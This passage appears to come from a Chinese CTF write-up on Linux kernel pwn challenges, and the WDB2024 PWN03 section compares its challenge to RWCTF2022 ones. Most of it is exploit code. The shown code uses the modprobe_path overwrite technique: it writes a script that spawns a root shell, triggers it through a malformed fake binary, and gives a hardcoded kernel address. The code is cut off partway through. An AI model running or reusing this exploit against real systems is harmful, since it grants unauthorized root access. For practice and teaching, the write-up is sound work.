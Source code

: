```
    alloc_buf(xkmod_fd[2],&data);
strcpy((char*)&data.buf[2],"/home/shell.sh");
    write_buf(xkmod_fd[2],&data);

if(open("/home/shell.sh", O_RDWR)<0){
        system("echo '#!/bin/sh' >> /home/shell.sh");
        system("echo 'setsid cttyhack setuidgid 0 sh' >> /home/shell.sh");
        system("chmod +x /home/shell.sh");
}

    system("echo -e '\\xff\\xff\\xff\\xff' > /home/fake");
    system("chmod +x /home/fake");
    system("/home/fake");

return0;
}
```  
## WDB2024 PWN03  
### 利用思路  
  
基本上和RWCTF2022 Digging into kernel 1 & 2是一样的，这道题大家拿去练手即可，建议大家自行分析题目，我只把我的exp贴在下面，但是建议大家自己写一个exp。  
### exp  
```
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <asm/ldt.h>
#include <assert.h>
#include <ctype.h>
#include <errno.h>
#include <fcntl.h>
#include <linux/keyctl.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <semaphore.h>
#include <signal.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/mman.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/sem.h>
#include <sys/shm.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/xattr.h>
#include <unistd.h>
#include <sys/io.h>

size_t modprobe_path =0xFFFFFFFF81E58B80;

```